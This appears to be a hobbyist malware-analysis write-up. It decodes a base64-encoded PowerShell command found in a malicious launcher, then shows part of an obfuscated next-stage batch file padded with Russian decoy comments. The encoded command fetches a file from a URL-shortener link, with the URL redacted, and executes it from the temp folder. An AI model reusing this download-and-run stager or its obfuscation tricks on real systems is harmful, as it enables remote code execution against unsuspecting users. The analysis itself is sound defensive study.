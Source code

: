 ```
powershell.exe
?......WindowsSystem32WindowsPowerShellv1.0powershell.exe
C:Windowssystem32
-e aQB3AHIAIABpAHMALgBnAGQALwBqAHcAcgA3AEoARAAgAC0AbwAgACQAZQBuAHYAOgBUAE0AUAAvAC4AYwBtAGQAOwAmACAAJABlAG4AdgA6AFQATQBQAC8ALgBjAG0AZAA=
```

So:

1. Powershell is being invoked
2. There is a base64 encoded string

Decoding the base64 string gives (URL redacted):

```
iwr is.gd/<REDACTED> -o $env:TMP/.cmd;& $env:TMP/.cmd
```

There's a few things happening:

1. `iwr` is the Powershell 'curl', invoking a web request from the URL `is.gd/<REDACTED>`
2. It is saved it into a temporary `cmd` file.
3. This CMD file is then executed (with the `&` ampersand shorthand alias).

## step 2: getting the remote file
So we found there is a remote file being fetched. I try to `curl` it but there is a HTTP302 error. I could have just enabled the redirections flag in curl, but I got lazy and did what any sane person would do - just paste the URL into my web browser.

A file downloads, which i believe is the next stage of this malware.

## step 3: decipher this CMD file
If you try to view this file, this happens:

![Image of powershell cmd]()

Now, I speak Mandarin, and can read Korean, but this is garbage as far as I can tell. Pushing this into ghidra crashes my computer (This happens again in [[OceanLocust]]). Oh no.

However, I found this by mistake. If you run `head` you get this instead:

```sh
&cls
@echo off
set ucbw=set
:: Путешествия в воображении, как и путешествия в реальности, могут привести к удивительным открытиям и незабываемым встречам с персонажами, которые живут на грани воображаемого и реального.
%ucbw% qmy=
:: Песнь птиц, запутавшаяся в ветвях деревьев, как древний гимн жизни, разносится по лесу, наполняя его радостью и напоминая о том, что природа всегда была и будет в движении.
%ucbw%%qmy%jxaa==
:: Чудеса происходят тогда, когда мироздание вдруг решает повернуть ход истории в неожиданных направлениях, создавая прекрасные узоры на полотне жизни.
%ucbw%%qmy%ccdn%jxaa%/
:: Песнь птиц, запутавшаяся в ветвях деревьев, как древний гимн жизни, разносится по лесу, наполняя его радостью и напоминая о том, что природа всегда была и будет в движении.
```
